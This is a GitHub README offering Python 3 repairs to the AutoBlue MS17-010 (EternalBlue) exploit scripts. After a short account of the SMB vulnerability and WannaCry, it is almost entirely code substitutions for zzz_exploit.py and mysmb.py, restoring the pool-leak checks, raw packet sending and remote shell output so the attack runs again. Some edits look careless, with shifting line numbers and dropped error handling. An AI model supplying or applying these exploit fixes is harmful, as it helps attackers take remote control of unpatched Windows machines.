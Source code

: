 # AutoBlue MS17-010 Python 3 Fix

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, specifically addressing the issue related to the interaction of variables with `bytes` and `str` types in the Python scripts `mysmb.py` and `zzz_exploit.py`.

The original repository containing all the exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

MS17-010 is a security vulnerability in Microsoft Windows operating systems that was discovered in March 2017. The exploit allows an attacker to remotely execute code on a target system by sending specially crafted packets to the Windows Server Message Block (SMB) protocol. This vulnerability was famously exploited by the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

### The suggested changes for `zzz_exploit.py`:

- Substitute:
    ```python
    Original:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Substitute:
    ```python
    Original:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Substitute:
    ```python
    Original:
    328        info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    ---
    Modified:
    328        info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- Substitute:
    ```python
    Original:
    399        conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    ---
    Modified:
    399        conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- Substitute:
    ```python
    Original:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    ---
    Modified:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- Substitute:
    ```python
    Original:
    429        if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ---
    Modified:
    429        if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```

### The suggested changes for `mysmb.py`:

- Substitute:
```python
Original:
3          from impacket import smb, smbconnection, smbserver
---
Modified:
3          from impacket import smb, smbconnection
```

- Remove
```python
Original:
9          try:
10             import ConfigParser
11         except ImportError:
12             import configparser as ConfigParser
```

- Remove:
```python
Original:
17         SMBSERVER_DIR   = '__tmp'
18         DUMMY_SHARE     = 'TMP'
```

- Substitute:
```python
Original:
89         transData += (b'\x00' * padLen) + str.encode(data)
---
Modified:
83         if (type(data) == bytes):
84             transData += (b'\x00' * padLen) + data
85         else:
86             transData += (b'\x00' * padLen) + data.encode('utf-8')
```

- Substitute:
```python
Original:
420        self.__output = '\\\\%COMPUTERNAME%\\{}\\{}'.format(self.__share,self.__outputFilename)
---
Modified:
417        self.__output = '\\\\127.0.0.1\\{}\\{}'.format(self.__share,self.__outputFilename)
```

- Substitute:
```python
Original:
483        self.prompt = self.__outputBuffer.decode(errors='replace').replace('\r\n','') + '>'
---
Modified:
489        self.prompt = self.__outputBuffer.decode().replace('\r\n','') + '>'
```

- Substitute:
```python
Original:
502        output_callback(fd.read().encode('utf-8'))
---
Modified:
499        output_callback(fd.read())
```

- Substitute:
```python
Original:
528        print(self.__outputBuffer.decode(errors='replace'))
---
Modified:
525        print(self.__outputBuffer.decode())
```

- Substitute:
```python
Original:
566        smbConfig.set('IPC$','path','')
---
Modified:
563        smbConfig.set('IPC$','path')
```
